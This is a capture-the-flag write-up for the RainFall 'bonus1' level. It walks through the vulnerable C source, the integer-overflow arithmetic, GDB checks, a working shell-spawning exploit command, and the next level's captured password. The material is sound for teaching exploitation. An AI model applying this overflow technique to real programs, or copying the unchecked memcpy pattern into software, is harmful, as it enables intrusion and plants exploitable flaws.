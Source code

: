 # bonus1: Integer Overflow Exploitation

## Challenge Overview

The program `bonus1` takes two arguments: a number and a string. It has a check that limits the number to values less than 10, but due to an integer overflow vulnerability, we can bypass this check and trigger a shell by manipulating the program's memory.

## Source Code Analysis

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

int main(int argc, char **argv)
{
  int result;
  char buffer[40];
  int number;

  number = atoi(argv[1]);
  if (number < 10) {
    memcpy(buffer, argv[2], number * 4);
    if (number == 0x574f4c46) {  // Hex value for "FLOW" in little-endian
      execl("/bin/sh", "sh", NULL);
    }
    result = 0;
  }
  else {
    result = 1;
  }
  return result;
}
```

The program follows this execution flow:

1. It takes the first command-line argument and converts it to an integer using `atoi()`
2. It checks if this number is less than 10
3. If so, it copies `number * 4` bytes from the second argument into a 40-byte buffer
4. Then it checks if `number` equals `0x574f4c46` (ASCII "FLOW" in little-endian)
5. If this condition is met, it spawns a shell using `execl()`

## Vulnerability Analysis

The vulnerability in this program centers around two key issues:

1. **Integer Overflow Vulnerability**:

   - When a negative number is provided as the first argument, it will pass the `number < 10` check
   - However, when this negative number is multiplied by 4 and passed to `memcpy()`, an integer overflow occurs
   - Since `memcpy()`'s third parameter (size) is interpreted as an unsigned value, a carefully chosen negative number can result in a very large or specific positive value

2. **Buffer Overflow Vulnerability**:

   - The destination buffer is only 40 bytes
   - By exploiting the integer overflow, we can make `memcpy()` write more than 40 bytes
   - This allows us to overwrite adjacent memory, including the `number` variable itself

3. **Memory Layout**:
   - Through debugging, we can confirm that the `number` variable is stored immediately after the `buffer` array in memory
   - This means that bytes 40-43 in our overflow will overwrite the `number` variable

## Exploitation Strategy

Our approach is to:

1. Use a negative number that passes the `number < 10` check
2. Make sure this number, when multiplied by 4 and interpreted as an unsigned value, equals exactly 44 (40 bytes for the buffer + 4 bytes to overwrite `number`)
3. Craft a payload where the last 4 bytes will overwrite `number` with `0x574f4c46` ("FLOW")
4. When the comparison executes, `number == 0x574f4c46` will be true, and we get a shell

## Precise Integer Calculation

We need a negative integer that:

- Is less than 10 (to pass the check)
- When multiplied by 4 and interpreted as unsigned, equals 44

1. We need to find a number that, when multiplied by 4 and interpreted as unsigned, equals 44 bytes

2. When a negative number gets interpreted as unsigned in a 32-bit system, it wraps around:

   - For a negative value -X, its unsigned interpretation is (2^32 - X)

3. Let's call our target number n:

   - When n is multiplied by 4: n \* 4
   - This must equal 44 when interpreted as unsigned

4. Working backwards:
   - We need (n \* 4) interpreted as unsigned = 44
   - If n is negative, then (n \* 4) is also negative
   - A negative value -X becomes (2^32 - X) when interpreted as unsigned
   - So we need: 2^32 - (-n \* 4) = 44
   - Simplifying: 2^32 + 4n = 44
   - Therefore: 4n = 44 - 2^32
   - 4n = 44 - 4,294,967,296
   - 4n = -4,294,967,252
   - n = -4,294,967,252 ÷ 4
   - n = -1,073,741,813

Therefore, our target value is `-1,073,741,813`. When this is multiplied by 4, the result will be interpreted as exactly 44 bytes by memcpy(), allowing us to overflow the buffer by just the right amount to overwrite the number variable.

## GDB Verification

To verify our understanding of the memory layout, we examined the program in GDB:

```
(gdb) run 9 "AAAABBBBCCCCDDDDEEEEFFFFHHHHIIIIKKKKLLLLMMMMNNNNOOOO"
(gdb) x/40b $esp+0x14  # Examining where buffer begins
...
(gdb) x/44b $esp+0x14  # Looking at buffer + 4 more bytes
```

This confirmed:

- The 40-byte buffer is filled with our input
- Bytes 40-43 (which overflow the buffer) overwrite the `number` variable
- With our calculated value of `-1,073,741,813`, `memcpy()` will copy exactly 44 bytes

## Final Exploit

```bash
./bonus1 -1073741813 $(python -c 'print "A"*40 + "\x46\x4c\x4f\x57"')
```

This exploit:

1. Passes `-1,073,741813` as the first argument, which:
   - Is negative, so it passes the `number < 10` check
   - When multiplied by 4, causes an integer overflow resulting in exactly 44 bytes being copied
2. The second argument is:
   - 40 'A's to fill the buffer
   - Followed by `\x46\x4c\x4f\x57` (FLOW in little-endian)
3. After the `memcpy()`:
   - The buffer is filled with 40 'A's
   - The `number` variable is overwritten with `0x574f4c46`
4. The condition `number == 0x574f4c46` evaluates to true, spawning a shell

## Getting the Password

After executing the exploit, we gained a shell with bonus1 privileges and retrieved the password:

```bash
bonus1@RainFall:~$ ./bonus1 -1073741813 $(python -c 'print "A"*40 + "\x46\x4c\x4f\x57"')
$ cat /home/user/bonus2/.pass
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
```

## Moving to Next Level

Use the password to log in as `bonus2` and proceed to the next challenge:

```bash
bonus1@RainFall:~$ su bonus2
Password: 579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
bonus2@RainFall:~$
```
